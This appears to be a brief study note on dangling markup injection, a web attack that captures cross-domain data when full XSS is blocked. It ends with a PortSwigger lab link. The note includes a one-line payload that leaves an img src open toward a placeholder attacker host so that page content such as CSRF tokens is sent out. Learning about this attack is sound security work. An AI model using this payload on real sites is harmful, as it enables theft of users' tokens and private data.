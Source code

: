 Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```html
"><img src='//attacker-website.com?
```
Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling".
The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.

#to-be-continued 
https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack
